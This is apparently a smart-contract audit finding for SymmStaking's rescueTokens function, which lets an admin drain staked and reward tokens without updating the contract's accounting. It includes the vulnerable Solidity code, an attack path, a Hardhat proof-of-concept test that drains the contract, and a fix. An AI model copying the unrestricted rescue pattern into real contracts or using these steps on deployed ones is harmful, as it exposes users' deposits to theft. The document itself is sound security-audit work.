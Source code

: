 Rural Licorice Robin

High

# Insecure Token Rescue Mechanism

### Summary

The `SymmStaking::rescueTokens` function allows the contract admin to withdraw any ERC20 token in any amount from the staking contract without restrictions, including both staked tokens and reward tokens, without adjusting the accounting state of the contract, enabling complete draining of user funds.

### Root Cause

The [`rescueTokens`](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L343) function has no restrictions on which tokens can be withdrawn or how much can be withdrawn:

```solidity
function rescueTokens(address token, uint256 amount, address receiver) external nonReentrant onlyRole(DEFAULT_ADMIN_ROLE) {
    IERC20(token).safeTransfer(receiver, amount);
    emit RescueToken(token, amount, receiver);
}
```

The function allows the admin to transfer any amount of any token to any recipient, including the staking token itself and reward tokens, without validating against accounting state variables like `totalSupply` or `pendingRewards`.

### Internal Pre-conditions

1. The contract has funds (either staked tokens or reward tokens)
2. An account with `DEFAULT_ADMIN_ROLE` initiates the attack

### External Pre-conditions

.

### Attack Path

1. Admin calls `rescueTokens` with `token = stakingToken`
2. Admin specifies an `amount` equal to the total balance of staking tokens in the contract
3. Admin sets `receiver` to their own address
4. All staked tokens are transferred to the admin, leaving the contract insolvent
5. Users' accounting balances remain unchanged in the contract, but actual tokens are gone
6. Similarly, admin can drain all reward tokens by setting `token` to a reward token address

### Impact

Users suffer a complete loss of their staked tokens and rewards. The contract becomes insolvent.

### PoC

```javascript
it("should demonstrate admin can drain all user funds", async function () {
    const stakeAmount = e("100");
    await stakingToken.connect(user1).approve(await symmStaking.getAddress(), stakeAmount);
    await symmStaking.connect(user1).deposit(stakeAmount, user1.address);
    
    const rewardAmount = e("50");
    await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount);
    await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true);
    await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount]);
    
    const stakingTokenBalanceBefore = await stakingToken.balanceOf(await symmStaking.getAddress());
    const rewardTokenBalanceBefore = await usdtToken.balanceOf(await symmStaking.getAddress());
    const adminStakingTokenBefore = await stakingToken.balanceOf(admin.address);
    const adminRewardTokenBefore = await usdtToken.balanceOf(admin.address);
    
    expect(stakingTokenBalanceBefore).to.equal(stakeAmount);
    expect(rewardTokenBalanceBefore).to.equal(rewardAmount);
    
    await symmStaking.connect(admin).rescueTokens(
        await stakingToken.getAddress(),
        stakingTokenBalanceBefore,
        admin.address
    );
    
    await symmStaking.connect(admin).rescueTokens(
        await usdtToken.getAddress(),
        rewardTokenBalanceBefore,
        admin.address
    );
    
    const stakingTokenBalanceAfter = await stakingToken.balanceOf(await symmStaking.getAddress());
    const rewardTokenBalanceAfter = await usdtToken.balanceOf(await symmStaking.getAddress());
    const adminStakingTokenAfter = await stakingToken.balanceOf(admin.address);
    const adminRewardTokenAfter = await usdtToken.balanceOf(admin.address);
    
    expect(stakingTokenBalanceAfter).to.equal(0);
    expect(rewardTokenBalanceAfter).to.equal(0);
    
    expect(adminStakingTokenAfter).to.equal(adminStakingTokenBefore + stakingTokenBalanceBefore);
    expect(adminRewardTokenAfter).to.equal(adminRewardTokenBefore + rewardTokenBalanceBefore);
    
    const userStakingBalance = await symmStaking.balanceOf(user1.address);
    expect(userStakingBalance).to.equal(stakeAmount);
    
    await expect(
        symmStaking.connect(user1).withdraw(stakeAmount, user1.address)
    ).to.be.reverted;
}
```

### Mitigation

Implement safeguards in the `rescueTokens` function to prevent withdrawal of essential tokens or to limit the amount that can be withdrawn:

```solidity
function rescueTokens(address token, uint256 amount, address receiver) external nonReentrant onlyRole(DEFAULT_ADMIN_ROLE) {
    if (token == stakingToken) {
        uint256 excessAmount = IERC20(token).balanceOf(address(this)) - totalSupply;
        require(amount <= excessAmount, "Cannot withdraw staked tokens");
    }
    
    if (isRewardToken[token]) {
        require(amount <= IERC20(token).balanceOf(address(this)) - pendingRewards[token], "Cannot withdraw pending rewards");
    }
    
    IERC20(token).safeTransfer(receiver, amount);
    emit RescueToken(token, amount, receiver);
}
```